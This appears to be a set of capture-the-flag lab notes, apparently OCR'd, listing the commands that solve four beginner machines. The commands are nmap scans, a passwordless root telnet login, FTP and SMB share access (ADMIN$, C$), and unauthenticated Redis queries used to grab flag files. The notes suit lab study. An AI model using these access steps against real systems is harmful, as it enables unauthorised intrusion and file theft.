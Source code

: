 Maullido
ping 10.129.175.101
nmap -sC 10.129.175.101
telnet -l root 10.129.175.101
ls
cat flag.txt

Adular
nmap -sC 10.129.173.229
ftp -?
ftp 10.129.73.229
get flag.txt
exit o bye
cat flag.txt

Baile
nmap -sV
sudo apt-get install smbclient
smbclient -L 10.129.246.26
smbclient \\\\10.129.246.26\\ADMIN$
smbclient \\\\10.129.246.26\\C$
smbclient \\\\10.129.246.26\\WorkShares
ls
cd Amy.j
ls
get worknotes.txt
cd ..
cd James.P
ls
get flag.txt
exit
cat worknotes.txt
cat flag.txt

Redentor
ping 10.129.47.43
nmap -p- -sV 10.129.47.43
redis-cli -h 10.129.47.43
info
select 0
keys *
get flag